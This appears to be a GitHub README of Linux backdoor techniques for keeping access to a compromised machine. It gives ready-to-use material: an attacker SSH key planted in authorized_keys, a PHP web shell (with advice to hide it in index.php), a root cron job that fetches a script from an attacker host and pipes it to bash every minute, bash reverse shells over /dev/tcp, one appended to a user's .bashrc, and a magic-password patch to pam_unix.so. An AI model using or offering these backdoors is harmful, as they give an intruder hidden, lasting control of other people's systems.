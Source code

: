 # Linux Backd00rs!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/216764166-c4480490-bb43-4839-a672-905c0c117ad4.png)


### 1). We can use SSH-keys...
I know your gonna say that ssh-keys aren't backdoors.
But there is one thing you should note, you can login into ssh with a pty spawn, therefore, you can be a little bit more sneaky.
#### generating ssh-keys
```
ssh-keygen -f <FILE_NAME>
```
-f - saves the ssh -key in the current directory in the name that you will assign it.
After running the command, you are going to be asked to enter a password...
If you dont want to encrypt your ssh-keys, just press enter twice.

This is going to generate 2 files, the ssh private key and the public key.
You are going to be needed to add the ssh-public key into the user's .ssh directory.
If in that directory there is a file, "authorized_keys", you can copy the contents of your public key into that file.
After that, we can login to the system using ssh.
```
ssh User@IP -i PRIVATE_SSH_KEY
```
To login without a pty shell;
```
ssh User@IP -i PRIVATE_SSH_KEY -T
```
If the directory .ssh is not present, you can always create it.
NB./ This may not work if your user isnt permitted to use ssh -keys.

Plus, if you get an RSA private key, before using it, remember to give it the appropriate read permissions.
```
chmod 400 PRIVATE_RSA_KEY
```
But it isnt a must to do this on the files generated using ssh-keygen as it does this automatically.

### 2). PHP Backdoors...
We can add this in the web root directory which is usually located at /var/www/html
With that info, you can add any php malicious code in that directory and save it as a .php file...
Example code;
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
You can also use the php reverse shell script.
You can also add the malicious code in between the files such as the index.php file which is a lot sneaky.

### 3). Cron Jobs...
If you want to view the cron job;
```
cat /etc/crontab
```
This represents all the tasks that are scheduled to run at some time on your machine.

well, we can add a cronjob to be sending us a reverse shell every minute...
```
* *     * * *   root    curl http://YOUR_IP:PORT/shell | bash
```
This is going to run this script after every minute,hour,day,etc.
We can add this to be into the shell file contents...
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
For this to work, we need to have set up our http.server so that the script will be able to get the file.
We also need to have set up our listener.

NB: You need to be the root user so as to be able to edit the /etc/crontab file.

### 4). [.bashrc] Backdoors....
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
Well, we can add this payload into the .bashrc file;
```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
This is going to send us a reverse shell anytime the user logs into the machine.

### 5). pam_unix.so Backdoors...
the file "pam_unix.so" is one of many files in Linux that is responsible for authentication.
![image](https://user-images.githubusercontent.com/99975622/216675465-afedd319-5b0f-4c22-9b80-78edf00892d5.png)
the file "pam_unix.so" uses the "unix_verify_password" function to verify to user's supplied password.

![image](https://user-images.githubusercontent.com/99975622/216675592-7d2be4ee-b567-440e-bbe1-3d42730ad611.png)
We can modify the file as above...

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix_verify_password" function. When using the "unix_verify_password" function to authenticate, the function takes the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work. 

### Resources...
For more methods...
```
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
```


## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/

